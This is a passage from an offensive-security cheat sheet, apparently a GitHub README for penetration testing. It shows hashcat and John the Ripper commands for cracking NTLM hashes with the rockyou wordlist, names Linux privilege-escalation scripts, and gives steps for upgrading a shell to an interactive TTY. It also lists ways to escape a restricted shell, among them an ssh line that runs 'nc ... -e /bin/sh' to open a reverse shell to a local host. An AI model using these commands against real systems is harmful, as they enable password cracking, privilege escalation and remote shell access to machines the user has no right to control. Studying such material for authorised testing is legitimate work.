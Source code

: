 ```bash
hashcat -m 1000 -a 0 hash.txt rockyou.txt
hashcat -m 1000 -a 0 hash.txt rockyou.txt -r OneRuleToRuleThemAll.rule
```

- John the ripper

```bash
john --wordlist=<PASSWORDS_LIST> hash.txt
```

# privilege escalation

### Linux privilege escalation
- Automated scripts

```bash
linPEAS.sh
LinEnum.sh
linuxprivchecker.py
```

- spawning interactive shell and setting env

```bash
python -c 'import pty;pty.spawn("/bin/bash");'  
ctrl z  
echo $TERM  
stty -a  
stty raw -echo  
fg  

export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:$PATH  
export TERM=xterm256-color  
export SHELL=bash  

stty rows \<> colums \<>  
```

- restricted bash 

```bash
perl -e 'exec "/bin/sh";'  
/bin/sh -i  
exec "/bin/sh";  
echo os.system('/bin/bash')  
/bin/sh -i  
ssh user@$ip nc $localip 4444 -e /bin/sh  
export TERM=linux  
```

- check what can be run as sudo 

```bash
sudo -l
```
